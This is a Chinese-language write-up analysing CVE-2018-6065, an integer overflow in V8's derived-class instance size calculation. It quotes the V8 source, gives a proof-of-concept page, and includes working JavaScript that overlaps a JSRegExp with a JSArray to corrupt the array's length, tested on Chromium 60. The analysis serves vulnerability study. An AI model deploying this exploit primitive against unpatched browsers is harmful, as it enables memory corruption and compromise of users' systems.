


# CVE-2018-6065

## 漏洞成因

作者在issue中说是因为在初始化一个新的js对象时，分配内存大小的计算出现了整数溢出，以下是漏洞相关函数：

### JSFunction::CalculateInstanceSizeForDerivedClass

```cpp
// v8 version 6.4.301  src/objects.cc
// static
bool JSFunction::CalculateInstanceSizeForDerivedClass(
    Handle<JSFunction> function, InstanceType instance_type,
    int requested_embedder_fields, int* instance_size,
    int* in_object_properties) {
  Isolate* isolate = function->GetIsolate();
  int expected_nof_properties = 0;		// [1]
  bool result = true;
  for (PrototypeIterator iter(isolate, function, kStartAtReceiver);
       !iter.IsAtEnd(); iter.Advance()) {	// [2]
    Handle<JSReceiver> current =
        PrototypeIterator::GetCurrent<JSReceiver>(iter);
    if (!current->IsJSFunction()) break;
    Handle<JSFunction> func(Handle<JSFunction>::cast(current));
    // The super constructor should be compiled for the number of expected
    // properties to be available.
    Handle<SharedFunctionInfo> shared(func->shared());
    if (shared->is_compiled() ||
        Compiler::Compile(func, Compiler::CLEAR_EXCEPTION)) {
      DCHECK(shared->is_compiled());
      expected_nof_properties += shared->expected_nof_properties();		// [3]
    } else if (!shared->is_compiled()) {
      // In case there was a compilation error for the constructor we will
      // throw an error during instantiation. Hence we directly return 0;
      result = false;
      break;
    }
    if (!IsDerivedConstructor(shared->kind())) {
      break;
    }
  }
  CalculateInstanceSizeHelper(instance_type, true, requested_embedder_fields,				// [4]
                              expected_nof_properties, instance_size,
                              in_object_properties);
  return result;
}
```

从函数名字中就可以看出这个函数是计算继承类所需内存大小的函数，[1]处变量expected_nof_properties表示该对象有多少个属性（这些属性的名字即使是重复的也算多个）；接着在[2]处遍历该类的原型链，并在[3]处依此加上各个原型链构造函数的expected_nof_properties，最后在[4]处计算分配对象所需的内存大小（计算的值会存放在instance_size里）。

### JSFunction::CalculateInstanceSizeHelper

```cpp
// v8 version 6.4.301  src/objects.cc
void JSFunction::CalculateInstanceSizeHelper(InstanceType instance_type,
                                             bool has_prototype_slot,
                                             int requested_embedder_fields,
                                             int requested_in_object_properties,
                                             int* instance_size,
                                             int* in_object_properties) {
  int header_size = JSObject::GetHeaderSize(instance_type, has_prototype_slot);
  DCHECK_LE(requested_embedder_fields,
            (JSObject::kMaxInstanceSize - header_size) >> kPointerSizeLog2);
  *instance_size =
      Min(header_size +
              ((requested_embedder_fields + requested_in_object_properties)
               << kPointerSizeLog2),
          JSObject::kMaxInstanceSize);
  *in_object_properties = ((*instance_size - header_size) >> kPointerSizeLog2) -
                          requested_embedder_fields;
}
```

该函数会计算出对象的instance_size，而instance_size的值来自 `Min(header_size +((requested_embedder_fields + requested_in_object_properties) << kPointerSizeLog2),JSObject::kMaxInstanceSize);`  其中的requested_in_object_properties就是来自前面的expected_nof_properties变量，

poc：

```javascript
<html>
<body>
<script>

const f = eval(`(function f(i) {
	if (i == 0) {
		class Derived extends Object {
			constructor() {
				super();
				${"this.a=1;".repeat(0x3fffe-8)}
			}
		}

		return Derived;
	}

	class DerivedN extends f(i-1) {
		constructor() {
			super();
			${"this.a=1;".repeat(0x40000-8)}
		}
	}

	return DerivedN;
})`);

let a = new (f(0x7ff))();
console.log(a);

</script>
</body>
</html>
```

poc中用eval函数创建了一个具有i个prototype的类构造函数，为了能打印出来，把i改小一点：



这里使用的i为3

poc中的i为0x7ff，DerivedN构造函数的expected_nof_properties是0x40000，Derived构造函数的expected_nof_properties是0x3fffe，Object的header_size是0x18，`header_size +((requested_embedder_fields + requested_in_object_properties) << kPointerSizeLog2)` 计算完会整数溢出为0x8，导致instance_size为8，后续分配的时候只会给该对象分配8个字节的大小

## 漏洞利用

根据作者的exp代码注释：

```javascript
// So, we target the integer overflow to create a JSRegExp object with an
		// instance_size of 8, and overlap this allocation with a JSArray object.
		//
		//       JSRegExp              JSArray
		// 0000: map
		// 0008: properties_or_hash    map
		// 0010: elements              properties_or_hash
		// 0018: data                  elements              <--- corrupt
		// 0020: source                length                <--- corrupt
		// 0028: flags
		// 0030: size
		// 0038: last_index
		//
		// The created JSRegExp object will be completely broken, but this doesn't
		// matter - we will allocate the overlapping JSArray inside the constructor
		// call before initialisation is finished, and during the initialisation of
		// the regular expression, data and source will be written to, corrupting
		// the elements and length fields of the array.
		//
		// We'll then quickly use this to modify an array buffer, and avoid holding
		// references to either the JSRegExp or the JSArray (since both have highly
		// invalid sizes) so that neither will be tenured when a gc triggers.
```

作者利用该整数溢出申请了一个JSRegExp对象，其instance_size还是只有8字节，只够存放该对象的map，接着在申请一个JSArray对象，他们的内存会重叠，JSRegExp的data会被当作是JSArray的elements，JSRegExp对象的source会被当作是length，这会导致JSArray越界

测试代码：

```javascript
const derived_n = eval(`(function derived_n(i) {
			if (i == 0) {
				class Derived extends RegExp {
					constructor(e) {
						super(e);
						return;
						${"this.a=0;".repeat(0x7fffb-8)}
					}
				}

				return Derived;
			}

			class DerivedN extends derived_n(i-1) {
				constructor(e) {
					super(e);
					return;
					${"this.a=0;".repeat(0x80000-8)}
				}
			}

			return DerivedN;
})`);

const ctor = derived_n(0x3ff);
var array = null;
var pattern = new Object();
pattern.toString = function() {
	// This is the allocation of the overlapping JSArray object. While this
	// allocation is referenced, a garbage collection will crash!
	array = new Array(8);
	return 'c01db33f';
}
// This is the allocation of the overlapping JSRegExp object which will 
// corrupt the array; we never hold a reference to it (except the 'this'
// reference during construction)
new ctor(pattern);
console.log(array.length);
```

在60版本的chromium浏览器中：



可以看到array.length被写成了c01db33f，直接就是一个越界数组了

代码里repeat里面数量减去8的操作应该是和计算expected_nof_properties的函数相关：

```cpp
// v8 version 6.4.301 src/objects.cc
void SharedFunctionInfo::SetExpectedNofPropertiesFromEstimate(
    FunctionLiteral* literal) {
  int estimate = literal->expected_property_count();

  // If no properties are added in the constructor, they are more likely
  // to be added later.
  if (estimate == 0) estimate = 2;

  // Inobject slack tracking will reclaim redundant inobject space later,
  // so we can afford to adjust the estimate generously.
  estimate += 8;		

  set_expected_nof_properties(estimate);
}
```

该函数应该是给对象多预留8个属性的空间

代码中instance_size的计算为 ：

```cpp
>>> hex(((0x3ff*0x80000+0x7fffb)<<3)+0x30)			// RegExp对象的header_size为0x30
'0x100000008'			// 溢出，int的结果为8
```

漏洞利用代码中的`new ctor(pattern);`，经过调试，初始化的顺序为先分配出DerivedN对象所需要的内存空间，这里因为漏洞原因是8字节，接着会调用到pattern的toString函数来将其转换成String，这期间就会调用到pattern.toString函数中的`array = new Array(8);`，使得array和ctor的内存重叠，之后ctor会更新其data和source属性，覆写array的element和length。

## 参考链接

https://bugs.chromium.org/p/chromium/issues/detail?id=808192

https://v8.dev/blog/slack-tracking
